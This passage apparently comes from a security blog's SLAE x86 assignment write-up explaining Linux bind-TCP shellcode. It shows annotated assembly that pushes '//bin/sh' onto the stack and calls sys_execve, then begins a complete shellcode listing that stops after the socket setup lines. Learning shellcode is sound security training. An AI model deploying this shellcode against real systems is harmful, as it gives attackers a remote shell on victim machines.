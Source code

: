 ### Exec /bin/sh with SYS_EXECVE
Finally, we need to execute a ```/bin/sh```shell with ```sys_execve``` system call. The man page entry for ```execve()``` is as follows:
```
int execve(const char *filename, char *const argv[], char *const envp[]);
```
The assembly code is as follows:
```nasm
		
        ; EAX	= 0xb		; sys_execve()
        ; EBX	= pointer to /bin/sh null terminated
        ; ECX	= pointer to address of /bin/sh null terminated
		; EDX	= pointer to an empty array
		
		xor eax, eax
		push eax				; push first 4 null bytes onto stack
			

		; //bin/sh (8)
		push 0x68732f2f
		push 0x6e69622f
							; stack contents from top - //bin/sh 0x00000000
		mov ebx, esp				; EBX has address of //bin/sh null terminated

		push eax				; push another 4 null bytes
        						; stack contents from top - 0x00000000 //bin/sh 0x00000000
        
		mov edx, esp				; now EDX has the address of the 4 null bytes that we just pushed
        
		push ebx				; stack contents from top
        						; addr_of_/bin/sh 0x00000000 //bin/sh 0x00000000

		mov ecx, esp

		mov al, 0xb
		int 0x80
```
### Complete Shellcode
```nasm
;
; Author 		: Rizal Muhammed (UB3RSiCK)
; Description		: SLAE x86 Assignment 1 - Shell Bind TCP Shellcode (Linux/x86)
; File 			: shell-bind-tcp-x86.nasm
; Website		: https://ub3rsick.github.io/

global _start

section .text

	_start:
		; int socketcall(int call, unsigned long *args)
		; int socket(int domain, int type, int protocol); 
		; sockfd = socket(2, 1, 0)

		; EAX = 0x66 			; sys_socketcall()
		; EBX = 0x1			; sys_socket()
		; ECX = Pointer to sys_socket arguments

		xor eax, eax
		push eax			; Argument 3 for socket() =>  	IPPROTO_IP = 0
		mov al, 0x66
		
```